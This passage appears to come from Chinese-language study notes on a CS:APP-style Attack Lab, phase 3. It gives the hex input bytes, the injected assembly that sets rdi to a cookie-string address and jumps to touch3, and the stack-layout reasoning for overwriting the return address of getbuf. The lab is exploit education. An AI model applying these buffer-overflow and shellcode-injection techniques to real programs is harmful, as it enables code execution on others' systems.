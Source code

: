 >78 dc 61 55 # 这4个字节是直接要Ret的，也就是getbuf执行完之后，直接跳转到缓冲区的起始位置
>
>```
>
>另外有一点，rip执行代码的时候，rip逐渐增加，因此攻击代码正序输入buffer中即可。



### phase_3

>
>
>需要转化的字符串
>
>```
>35 39 62 39 39 37 66 61 00
>```
>
>由于会存在stack的覆盖，因此尝试的思路是，把cookie字符串尽量放到buffer的低地址，尽量避免覆盖
>
>```asm
>0000000000000000 <.text>:
>0:	48 c7 c0 fa 18 40 00 	mov    $0x4018fa,%rax
>7:	50                   	push   %rax
>8:	48 c7 c7 78 dc 61 55 	mov    $0x5561dc78,%rdi
>f:	c3                   	retq   
>```
>
>对应的十六机制为
>
>```bash
>35 39 62 39 39 37 66 61 00 31 # cookie字符串
>48 c7 c0 fa 18 40 00 50 48 c7 # 可执行代码，push touch3的地址
>c7 78 dc 61 55 c3 31 31 31 31 # 然后将cookie字符串的地址存储到touch3的第一个参数$rdi中
>31 31 31 31 31 31 31 31 31 31 
>82 dc 61 55	
>```
>
>
>
>尝试结果，不行，即使是低地址，也还是会被`hexmatch`的saved register覆盖。
>
>
>
>思路，回顾getbuf()函数如何被调用的？
>test()函数中，call <getbuf>，这个过程中，test()函数内部申请了部分stack空间，然后call的时候会再次rsp-8，也就是申请8字节空间用于存放return address。
>缓冲区溢出攻击，也就是通过写过量的字符串，覆盖掉return address，从而完成攻击的。
>
>getbuf() frame中，申请了40字节的空间用于输入缓冲区的存放。可执行bytes在40字节缓冲区中，return address用于跳转rip，也就是用可执行bytes的首地址覆盖掉return address。把可执行bytes执行完毕之后，刚好rsp指向cookie string，这个时候再调用函数，也只是push新的栈空间，刚好不会覆盖前面位置的cookie string
>
>（简单总结，在当前函数frame中，缓冲区覆盖掉return address，并且**覆盖了上个函数frame的部分内容**，并不会触发segment fault）
>
>```bash
>0~8  	xxxxxxxxxx	# 可执行bytes
>8~16	xxxxxxxxxx	# 可执行bytes
>16~24	xxxxxxxxxx	# 可执行bytes
>24~32
>32~40 	xxxxxxxxxx  # 到这里，缓冲区刚好结束
>40~48  "return address" # 修改return address
>48~54 "cookie string" #溢出
>```
>
>